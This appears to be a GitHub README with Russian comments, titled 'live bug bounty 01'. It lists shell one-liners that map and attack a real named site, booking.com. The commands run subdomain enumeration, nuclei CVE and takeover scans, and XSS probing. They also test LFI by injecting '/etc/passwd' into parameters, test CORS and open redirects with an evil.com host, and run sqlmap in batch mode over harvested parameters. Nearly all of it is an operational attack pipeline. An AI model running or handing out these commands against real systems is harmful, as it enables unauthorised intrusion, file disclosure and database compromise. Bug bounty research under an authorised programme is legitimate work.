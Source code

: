 # liveBB01
live bug bounty 01

* echo booking.com > target.txt
# найдет субдомены 
* subfinder -dL target.txt -all --recursive -o subs.txt
#_________________________________________ оставляем только живые _________________________________________
* cat subs.txt | httpx -o aliveSubs.txt
 _________________________________________ вытащить все юрл с субдоменов _________________________________________
* cat subs.txt | waybackurls | tee urls.txt
 _________________________________________ перверяет субдомен тейковер среди живых доменов _________________________________________
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
_________________________________________ проверяет на cve, exposure, vuln _________________________________________
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
  _________________________________________ из юрл извлекаем те юрл у которых есть параметры и js файлы _________________________________________
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
  _________________________________________ проверяет баги в js файлах _________________________________________
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
  _________________________________________ проверяет xss _________________________________________
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
 _________________________________________ проверяет lfi _________________________________________
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
  ________________________________________ проверяет sqli ________________________________________
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
  ______________________________________ проверяет открытое перенаправление _________________________________________
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
 _________________________________________ нуклей фазер проверет все уязвимости _________________________________________
* nf -d booking.com

